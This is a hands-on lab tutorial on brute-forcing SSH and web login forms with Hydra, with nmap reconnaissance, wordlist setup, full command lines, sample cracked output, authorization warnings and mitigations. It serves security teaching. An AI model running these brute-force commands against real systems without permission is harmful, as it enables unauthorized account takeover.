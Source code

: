 ```yaml
---
title: Password Cracking with Hydra
date: 2024-05-12 08:01:35 +0300
subtitle: Product Design
image: '/images/404.png'
---
```

# Lab 4: Password Cracking with Hydra

## **Objective**
Learn how to use **Hydra**, a brute-force password-cracking tool, to test the strength of login credentials. This lab demonstrates the importance of strong password policies and how attackers exploit weak passwords.

---

## **Prerequisites**
1. **Kali Linux or Any Linux Distro with Hydra Installed**:
   - Check if Hydra is installed:
     ```bash
     hydra -h
     ```
   - Install it if necessary:
     ```bash
     sudo apt update && sudo apt install hydra
     ```

2. **Target System**:
   - Use a controlled environment such as a test web server, SSH service, or FTP server where you have permission to test.
   - **Insight**: Unauthorized use of Hydra is illegal and unethical.

3. **Wordlist**:
   - A list of potential passwords for the attack.
   - **Tip**: Kali Linux includes wordlists, such as `/usr/share/wordlists/rockyou.txt`. Ensure it is extracted first:
     ```bash
     gunzip /usr/share/wordlists/rockyou.txt.gz
     ```

---

## **Step 1: Identify Target Service**
1. Determine the service and protocol you want to test (e.g., HTTP, SSH, FTP).
2. Verify the service is running on the target system.
   - Use Nmap to identify open ports and services:
     ```bash
     nmap -sV <target_ip>
     ```

---

## **Step 2: Preparing Hydra**
Hydra requires the following:
- **Target IP or Hostname**: The system you are testing.
- **Protocol**: The service you are targeting (e.g., ssh, ftp, http).
- **Username**: The account to test or a list of usernames.
- **Password List**: A wordlist containing potential passwords.

### Example Setup:
- Target: `192.168.1.100`
- Protocol: `ssh`
- Username: `admin`
- Password List: `/usr/share/wordlists/rockyou.txt`

---

## **Step 3: Basic Hydra Command**
Run a brute-force attack against the SSH service:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100
```
- **`-l admin`**: Specifies a single username (`admin`).
- **`-P /usr/share/wordlists/rockyou.txt`**: Points to the password wordlist.
- **`ssh://192.168.1.100`**: Specifies the target protocol and IP address.

---

## **Step 4: Advanced Hydra Options**
1. **Testing Multiple Usernames**:
   - Use a username list instead of a single username:
     ```bash
     hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100
     ```

2. **Limiting Connection Attempts**:
   - Reduce the number of simultaneous connections to avoid crashing the target service:
     ```bash
     hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 4 ssh://192.168.1.100
     ```
   - **`-t 4`**: Limits to 4 parallel tasks (default is 16).

3. **Using HTTP POST Forms**:
   - Target login forms by specifying the POST request structure:
     ```bash
     hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form \
     "/login:username=^USER^&password=^PASS^:F=Invalid login"
     ```
   - Replace `/login` with the form's action URL and `F=Invalid login` with the failure message.

4. **Saving Results**:
   - Output results to a file for later review:
     ```bash
     hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100 -o results.txt
     ```

---

## **Step 5: Analyzing Results**
1. Successful credentials will appear in the terminal output or saved file:
   ```
   [22][ssh] host: 192.168.1.100   login: admin   password: password123
   ```
2. Document any findings and compare against the target’s password policy.

---

## **Step 6: Mitigation Strategies**
1. Enforce strong password policies:
   - Use long, complex passwords.
   - Implement multi-factor authentication (MFA).

2. Limit login attempts:
   - Configure services to block IPs after a set number of failed attempts.

3. Monitor logs:
   - Regularly review login logs for suspicious activity.

4. Use encryption:
   - Ensure services like SSH are configured with strong encryption algorithms.

---

## **Additional Tips and Insights**
1. **Legal Considerations**:
   - Only use Hydra in environments where you have explicit permission to test.
   - **Insight**: Unauthorized testing can lead to legal and ethical violations.

2. **Ethical Hacking**:
   - Use tools like Hydra responsibly to identify and mitigate security risks, not exploit them.

3. **Practice in Controlled Environments**:
   - Set up a lab with vulnerable systems to test and refine your skills safely.

4. **Explore Hydra Modules**:
   - Hydra supports a variety of protocols (e.g., SMB, VNC, Telnet). Experiment to learn their specific options and behaviors.

---

## **Key Takeaways**
1. Hydra is a versatile tool for testing the strength of login credentials.
2. Strong password policies and additional security measures can significantly reduce brute-force attack risks.
3. Ethical use and proper authorization are critical when performing password-cracking activities.
